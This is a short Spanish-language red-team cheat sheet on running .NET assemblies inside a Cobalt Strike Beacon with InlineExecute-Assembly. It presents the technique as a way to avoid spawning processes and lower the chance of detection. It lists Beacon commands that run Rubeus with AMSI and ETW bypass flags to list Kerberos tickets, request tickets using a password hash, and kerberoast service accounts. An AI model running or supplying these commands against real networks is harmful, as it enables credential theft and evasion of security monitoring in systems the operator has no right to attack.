 # Inline (.NET) Execution con InlineExecute-Assembly

# InlineExecute-Assembly permite cargar y ejecutar ensamblados .NET directamente en el proceso de Beacon sin necesidad de fork and run.
# Esto elimina la creación de procesos adicionales y reduce la superficie de detección, aunque aún puede generar eventos sospechosos al cargar el CLR.

# Cargar el módulo InlineExecute-Assembly
# El archivo CNA se encuentra en: C:\Tools\InlineExecute-Assembly

beacon> help inlineExecute-Assembly
# Descripción del comando:
# inlineExecute-Assembly --dotnetassembly /ruta/al/Assembly.exe --assemblyargs "Argumentos" --amsi --etw [opciones adicionales]

# Ejemplos prácticos con diferentes herramientas y comandos .NET:

# ----------- Rubeus -----------
# Listar tickets Kerberos del usuario actual
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs triage --amsi --etw

# Solicitar tickets Kerberos para un usuario específico
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs "asktgt /user:username /domain:domain /rc4:hash" --amsi --etw

# Enumerar SPNs para ataques Kerberoasting
beacon> inlineExecute-Assembly --dotnetassembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe --assemblyargs "kerberoast /outfile:kerberos_hashes.txt" --amsi --etw
